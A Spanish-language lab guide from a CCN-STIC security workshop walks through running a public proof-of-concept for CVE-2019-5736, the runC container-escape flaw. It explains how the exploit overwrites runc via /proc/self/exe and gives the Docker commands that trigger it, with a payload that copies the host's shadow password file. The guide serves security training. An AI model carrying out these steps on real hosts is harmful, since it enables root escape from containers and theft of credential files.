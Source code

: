 # Guía de laboratorio Parte 1
Guía del laboratorio impartido por sidertia en las jornadas CCN-STIC

Tiempo estimado: **10 min**

Se ejecutará un exploit desarrollado por Nick Frichette el cual aprovecha una vulnerabilidad descubierta en febrero de 2019 identificada como CVE-2019-5736.
***
## ÍNDICE 📋
1. [CVE-2019-5736](#id1)
    1. [Ejecución ](#id12)

## Requisitos

1. cambiar a directorio Parte4
````
cd ~/contenedoresyseguridad/Seccion4DockerEscape
````
2. Backup runc
````
sudo cp /usr/sbin/runc /usr/sbin/runc.backup
````


<div id='id1'></div>

## CVE-2019-5736

Si se desea más información se puede consultar una explicación detallada del funcionamiento en el siguiente repositorio:

https://github.com/Frichetten/CVE-2019-5736-PoC

El funcionamiento general del exploit es el siguiente, teniendo en cuenta que un atacante ha conseguido una shell en uno de nuestros contenedores:

1. Se ejecuta el exploit en el contenedor. Queda a la escucha.
2. Cuando desde el host se ejecute un exec en el contenedor llamando a sh, el contenedor sobreescribe runC por un payload deseado.

Esto se realiza mediante el acceso a runc por medio del link simbólico /proc/self/exe que apuntará a runC en el momento de ejecutar el exploit en el contenedor.
Al realizar un exec desde fuera, el exploit sobreescribe runC por el payload deseado

En nuestro caso, vamos a ejecutar el exploit en nuestra instalación docker por defecto versión 18.09.1.
Ya estamos listos para escapar de un contenedor sobreescribiendo runC y ejecutando nuestro payload como root.

<div id='id12'></div>
## Ejecución

1. **En el Host**. Para simular a un atacante, ejecutaremos una shell y mapearemos el exploit compilado en un contenedor de base ubuntu en la carpeta tmp. 
````
sudo chmod 777 /home/administrator/contenedoresyseguridad/Seccion4DockerEscape/main

docker run --name contcomprometido -v /home/administrator/contenedoresyseguridad/Seccion4DockerEscape/main:/tmp/main -it ubuntu /bin/bash
````
2. **En la shell del contenedor comprometido** recién creado cambiar de directorio a tmp y ejecutar el exploit.
````
cd /tmp
./main
````
3. **Abrir una nueva sesión ssh con el host.** No cerrar ni salir de la del punto 2. Ejecutar /bin/sh en el contenedor comprometido, momento en el que se sobreescribirá runC por el payload y se ejecutará con permisos de root en el Host.
````
docker exec -it contcomprometido /bin/sh
````
4. Observamos que en la **shell de contcomprometido** obtenemos la salida overwritten succesfully.
**En el host** observamos el fichero /tmp/ShadowOwnedBySidertia , el cual es una copia del fichero de contraseñas shadow del host.
